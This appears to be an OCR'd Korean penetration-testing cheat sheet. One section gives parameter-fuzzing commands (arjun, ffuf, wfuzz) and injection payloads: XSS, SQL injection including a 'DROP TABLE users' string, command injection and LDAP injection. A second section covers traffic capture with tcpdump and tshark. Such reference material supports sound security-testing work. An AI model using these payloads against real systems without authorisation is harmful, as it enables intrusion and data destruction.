 
## 🔍 매개변수 및 입력 발견

### 매개변수 퍼징
```bash
# Arjun - HTTP 매개변수 발견
arjun -u http://target.com/page

# 일반적인 매개변수명
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://target.com/page?FUZZ=test

# POST 매개변수 발견
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -d "FUZZ=test" http://target.com/page
```

### 입력 검증 테스트
```bash
# XSS 페이로드
<script>alert('XSS')</script>
"><script>alert('XSS')</script>

# SQL 인젝션 페이로드
' OR '1'='1
" OR "1"="1
'; DROP TABLE users--

# 명령어 인젝션
; id
| id
` id `
$( id )

# LDAP 인젝션
*)(uid=*))(|(uid=*
```

---

## 📊 트래픽 분석 및 모니터링

### 네트워크 트래픽 캡처
```bash
# tcpdump
sudo tcpdump -i eth0 -w capture.pcap     # 패킷 캡처
sudo tcpdump -i eth0 host target.com     # 특정 호스트
sudo tcpdump -i eth0 port 80              # 특정 포트

# Wireshark CLI
tshark -i eth0 -w capture.pcap
tshark -r capture.pcap -T fields -e ip.src -e ip.dst

# Netstat 모니터링
watch 'netstat -tuln'
ss -tuln

# 실시간 연결 모니터링
watch 'lsof -i'
```

